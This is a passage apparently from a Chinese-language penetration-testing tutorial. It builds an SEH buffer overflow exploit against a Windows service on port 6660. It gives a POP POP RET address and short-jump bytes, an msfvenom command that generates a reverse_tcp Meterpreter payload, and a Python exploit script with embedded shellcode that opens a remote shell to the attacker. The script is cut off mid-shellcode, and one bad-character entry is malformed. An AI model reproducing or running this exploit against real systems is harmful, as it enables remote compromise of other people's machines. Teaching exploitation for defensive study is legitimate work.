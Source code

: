 1.  在这里，我们有所有`.dll`中`POP POP RET`序列的地址。我们将使用第一个`0x0f9a1f0b`。我们还需要一个短的`JUMP`代码，它将导致跳转到我们的 shellcode 或存储在内存中的 Cs。

1.  短`JUMP`是`\xeb\x06`，其中`06`是我们需要跳转的字节数。我们仍然缺少 4 字节地址空间的 2 个字节，我们可以使用 2 个 NOPs。

1.  让我们创建一个 shellcode；因为我们将通过 HTTP 发送这个 shellcode，所以我们需要确保避免坏字符。我们将使用 msfvenom：

```
 msfvenom -p windows/meterpreter/reverse_tcp -f py
        -b "\x00\xff\x20\x25\x0a\x-d" -v buffer
```

以下屏幕截图显示了前面命令的输出：

![](img/4a72551c-1e19-414f-a9f1-33d95e744367.png)

1.  我们将把所有东西放在利用中，如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
```